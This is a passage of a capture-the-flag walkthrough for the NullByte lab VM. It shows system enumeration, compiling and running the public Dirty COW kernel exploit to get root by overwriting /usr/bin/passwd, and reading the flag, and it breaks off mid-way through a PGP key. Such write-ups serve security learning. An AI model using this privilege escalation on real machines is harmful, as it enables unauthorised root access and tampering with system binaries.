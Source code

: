 Time to look around the system!

``` plain
ls -l /home
total 12
drwxr-xr-x 2 bob    bob    4096 Aug  2  2015 bob
drwxr-xr-x 2 eric   eric   4096 Aug  2  2015 eric
drwxr-xr-x 2 ramses ramses 4096 Aug  2  2015 ramses
```

Nothing interesting in those home directories. I looked at the kernel version next:

``` plain
uname -v
#1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17)
```

A bit of google-fu revealed that this kernel is vulnerable to CVE-2016-5195, or more popularly known as the [Dirty Cow exploit](https://www.exploit-db.com/exploits/40616/) . It is possible to exploit a race condition to escalate privileges to root! I downloaded the source code to the NullByte VM, commented out the x64 payload and uncommented the x86 one, and then I compiled it with <code>gcc dirtycow.c -o dirtycow -pthread</code>. I got some warnings, but was able to run it successfully:

``` plain
./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 53112
Racing, this may take a while..
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
root@NullByte:/home/ramses# whoami
root
```

The system crashed shortly afterwards, so I followed the advice in the exploit source code and did <code>echo 0 > /proc/sys/vm/dirty_writeback_centisecs</code>, and it didn't crash anymore. With this, I was able to read the flag:

``` plain
cat /root/proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats.
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
```